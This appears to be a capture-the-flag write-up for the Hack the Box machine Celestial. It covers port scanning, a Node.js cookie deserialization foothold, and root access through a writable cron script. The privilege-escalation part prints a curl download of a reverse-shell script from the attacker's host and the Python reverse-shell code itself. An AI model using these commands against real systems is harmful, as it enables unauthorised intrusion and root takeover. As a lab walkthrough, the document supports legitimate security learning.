 ```yaml
---
layout: post
title: Hack the Box - Celestial
date: 2020-08-21 18:39:22 +0100
description: Celestial is a medium difficulty machine which focuses on deserialization exploits. It is not the most realistic, however it provides a practical example of abusing client-size serialized objects inNodeJS framework.
img: celestial.png
fig-caption: Celestial
categories: HackTheBox
tags: [Medium, Linux, Retired, CVE]
---
```

## Overview
Celestial is a medium difficulty machine which focuses on deserialization exploits. It is not the most realistic, however it provides a practical example of abusing client-size serialized objects inNodeJS framework.

## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/celestial]
└─$ sudo nmap -p- -T4 10.129.117.225    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 18:41 GMT
Nmap scan report for 10.129.117.225
Host is up (0.015s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 380.73 seconds
```
Enumeration on ports is made easy as there is only one port open. When accessing this in a browser we are greeted with the message `Hey Dummy 2 + 2 is 22`. Fuzzing did not find anything important, so on close inspection of the GET request we could see a cookie.
```
GET / HTTP/1.1
Host: 10.129.117.225:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
Upgrade-Insecure-Requests: 1
If-None-Match: W/"15-iqbh0nIIVq2tZl3LRUnGx4TH3xg"
```
As it looks like base64 on decoding it we could see a JSON message. This would lead us to believe there could be a serialization exploit. To understand what platform this exploit could affect service enumeration reveals that it is a NodeJS server.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/celestial]
└─$ sudo nmap -p3000 -sV 10.129.117.225                                                                                                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 18:55 GMT
Nmap scan report for 10.129.117.225
Host is up (0.015s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.74 seconds
```
Some googling uncovered that NodeJS is vulnerable to a deserialization bug that results in RCE and I followed this [guide](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
## Foothold
Following the guide above returns a shell as shown below
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/celestial]
└─$ nc -nlvp 4245
listening on [any] 4245 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.117.225] 58502
Connected!
python -c "import pty; pty.spawn('/bin/bash');"
sun@sun:~$ whoami
whoami
sun
```
## Privilege Escalation
Once we have a shell I used [pspy](https://github.com/DominicBreuker/pspy) to monitor the processes on the server. After waiting for a few mins I spotted the below.
```
2021/03/22 15:30:01 CMD: UID=0    PID=20538  | /usr/sbin/CRON -f 
2021/03/22 15:30:01 CMD: UID=0    PID=20543  | python /home/sun/Documents/script.py 
2021/03/22 15:30:01 CMD: UID=0    PID=20548  | cp /root/script.py /home/sun/Documents/script.py 
2021/03/22 15:30:01 CMD: UID=0    PID=20549  | chown sun:sun /home/sun/Documents/script.py 
```
This showed `script.py` being called by root and luckily we have write access to it. So after replacing the script with a reverse shell we received root.
```
sun@sun:~/Documents$ curl -o /home/sun/Documents/script.py http://10.10.14.27:8081/reverse.py 
sun@sun:~/Documents$ chmod +x /home/sun/Documents/script.py
sun@sun:~/Documents$ cat /home/sun/Documents/script.py

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.27",5875));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty;
pty.spawn("/bin/bash")

┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/celestial]
└─$ nc -nlvp 5875
listening on [any] 5875 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.117.225] 45444
root@sun:~# whoami
whoami
root
```